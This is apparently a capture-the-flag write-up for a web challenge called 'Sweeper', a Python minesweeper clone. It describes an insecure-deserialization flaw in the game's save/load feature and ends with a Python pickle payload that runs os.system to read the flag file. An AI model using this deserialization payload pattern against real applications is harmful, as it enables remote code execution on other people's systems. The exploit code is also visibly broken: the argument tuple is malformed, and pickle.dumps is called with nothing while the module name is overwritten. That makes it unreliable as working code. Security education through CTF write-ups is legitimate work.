 # CyberOpen Season II - Sweeper - Web Exploitation

## Challenge Description

A twist on a classic game. Tread lightly while you dig up the flag.

## High-level summary

This custom python implementation of Windows' classic minesweeper game has a RCE vulnerability through insecure deserialization in the load/save aspect of the web application. The save files are base64 encoded python pickle objects that can be used to obtain RCE.

## Investigation

![alt text] (./images/hexdump.PNG)

## Exploit

```python
import os
import pickle
import base64

class RCE():
    def __reduce__(self):
        return (os.system, "cat /flag.txt",)

if __name__ == '__main__':
    pickle = pickle.dumps()
```

